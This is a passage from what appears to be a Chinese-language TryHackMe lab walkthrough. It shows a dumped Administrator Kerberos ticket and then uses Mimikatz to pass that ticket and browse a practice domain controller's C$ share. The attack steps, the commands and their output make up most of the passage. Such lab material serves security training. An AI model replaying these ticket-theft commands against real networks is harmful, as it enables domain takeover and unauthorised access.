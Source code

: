 ```shell title="Terminal"
             i+kOk3CkcstLfdAP1ck4O+NywDMUK+PhGJM/7ykFe2zICIMaGYGnUDRrad3z8dpQWGPyTBgTvemwS3wW
             NuPbQFFaoyiDiJyXPh+VqivhTUX9st80ZJZWzpE7P1pTNPGq38/6NyLjiE9srbOt6hCLzUaOSMGH1Enf
             SYmNljeW2R0gsFWBaFt16AHfT9G9Et2nOCJn/D/OFePFyR4uJF44p82CmVlBhzOxnCaGtQM2v9lwBqQF
             CcVLjxGXqKrPUr1RUGthP861jhMoXD4jBJ/Q32CkgVdlJRMweqcIfNqP/4mEjbUN5qjNqejYdUb/b5xw
             S794AkaKHcLFvukd41VTm87VvDOp6mM5lID/PLtTCPUZ0zrEb01SNiCdB5IAfnV23vmqsOocis4uZklG
             CNdI1/lsICpS/jaK6NM/0oKehMg+h4VAFLx4HnTSY4ugbrkdxU948qxPEfok/P6umEuny7yTDQFoCUKk
             RuLXbtwwplYTGBDLfzwhcNX8kc/GGLbH9+B8zRXxhd3TGQ7ZT03r798AjobKx024ozt6g4gjS5k/yIT+
             f29XrPzc+UODunO2Qv8JM5NAE3L6ryHp/DdgTaXGBRccgQBeQERNz6wxkdVK6SB7juOjU5JoZ5ZfmTuO
             hQ5hnboH1GvMy4+zeU2P7foWEJE76i9uZMbjUilbWRERYUL/ZjjXQBVWBaxoAdFIoawAzSXUZniNavnS
             n22qqgbd79Zj+lRavAb7Wlk5Gul4G6LMkh2MIJ4JOnrV0JV1yOhoqZ5V6KX/2r7ecyrVZIf2Qf0+ci9G
             vboJiLvWKgXkx7VaKbcLhO743BNYyq57nPNvWhVt3jbFmEq4nTdNou6hQHG4O5hVMhBKGgTwYz3yFPOP
             iuxroniQawSUJbmwObxVeoculPhxEJ69MSgKROTXrKrQAJ84D5QJHQYZus6w+LtodZn1//ZLhgILeFsY
             5K6d4ot2eqEr/A4Vu+wFjGjw87FTvHVcf8HdtGhqkawtPOrzo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
             gdowgdcwgdSgKzApoAMCARKhIgQgQr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVWhERsPTFVO
             QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIyMDIwNjE3
             NTQ0NlqmERgPMjAyMjAyMDcwMzU0NDZapxEYDzIwMjIwMjEzMTc1NDQ2WqgRGw9MVU5BUi5FUlVDQS5D
             T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ=

         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             :  za.tryhackme.loc
         UserName                 :  Administrator
         UserRealm                :  za.tryhackme.loc
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

现在我们可以使用 Mimikatz 加载 TGT 并进行对 THMDC 的身份验证：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
```